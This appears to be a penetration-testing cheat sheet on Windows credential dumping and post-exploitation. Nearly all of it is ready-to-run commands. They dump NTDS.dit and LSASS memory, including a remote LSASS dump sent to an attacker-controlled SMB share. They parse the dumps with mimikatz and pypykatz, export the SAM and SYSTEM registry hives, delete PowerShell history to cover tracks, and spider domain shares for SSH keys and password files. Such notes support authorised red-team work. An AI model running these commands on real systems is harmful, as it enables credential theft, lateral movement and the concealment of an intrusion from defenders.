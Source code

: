 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials[^1]

### NTDS dumping

#### Impacket-secretsdump directly
```bash
secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
```

#### Crackmapexec
```bash
crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --ntds DC01.acme.corp
```

#### ntdsutil[^2][^3]
```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
# Via WMIC from a remote machine to DC
wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"

# Then copy to kali and use secretsdump
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
```

### Dumping LSASS
* Try to archive and compress before exiltrating.
* After below, see [Data Exfiltration](../Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.html)
* See *Parsing LSASS* below
* Via procdump.exe
    ```batch
    procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
    procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
    ```
* Via Task manager
    * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
* Rundll32 comsvcs ([get PID](../Useful_Commands/Windows.html#tasklist))
    * Dump and exfiltrate later
        ```batch
        C:\Windows\System32\rundll32.exe comsvcs.dll, MiniDump <pid> C:\Windows\temp\lsass.dmp full
        ```
    * Remote LSASS dump[^4]
        * Run below on the target/victim machine
            ```batch
            net use x: \\smbserver_under_your_control\c$\
            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
            ```
* Crackmapexec
    ```bash
    crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" -M nanodump victimPC01.acme.corp
    crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" -M handlekatz victimPC01.acme.corp
    ```

### Parsing LSASS
1. Kali
    ```bash
    pypykatz lsa -k ./kerberos minidump ./lsass.dmp
    ```
1. Windows
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```

### Exporting registry hives & local decryption
1. On the target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.html)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```
---
## Delete Powershell history
* Delete the "file" given by this command:
    ```powershell
    (Get-PSReadlineOption).HistorySavePath
    ```
* Or just replace the <username> below
    ```powershell
    del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```
---
## Looking for files in the Domain
* Useful when
    * escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
        * ssh keys
        * password files
        * offline password manager DB files
    * sensitive files in "authenticated" shares
        * Attempting to escalate privileges and pivot to other hosts/networks
* About command:
    * spider = "*" to spider all shares per host
    * long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
    * Edit the `--pattern` for more filename patterns
    
```bash
crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --spider "*" --exclude-dirs "addins,ADFS,appcompat,apppatch,AppReadiness,assembly,bcastdvr,Boot,Branding,CbsTemp,Cluster,Containers,CSC,Cursors,debug,diagnostics,DiagTrack,DigitalLocker,dot3svc,Downloaded Program Files,drivers,en-US,Fonts,GameBarPresenceWriter,Globalization,Help,IdentityCRL,IME,ImmersiveControlPanel,INF,InputMethod,Installer,L2Schemas,LiveKernelReports,Logs,Media,Microsoft.NET,Migration,Minidump,ModemLogs,OCR,Offline Web Pages,Panther,Performance,PLA,PolicyDefinitions,Prefetch,PrintDialog,Program Files,Program Files (x86),Provisioning,Registration,RemotePackages,rescache,Resources,SchCache,schemas,security,ServiceProfiles,ServiceState,servicing,Setup,ShellComponents,ShellExperiences,SKB,SoftwareDistribution,Speech,Speech_OneCore,System,System32,SystemApps,SystemResources,SysWOW64,TAPI,Tasks,Temp,tracing,twain_32,Vss,WaaS,Web,Windows,WinSxS,wlansvc" --pattern passw ssh username id_rsa id_ed25519 .pub  --only-files ~/Scope/all.txt
```

[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
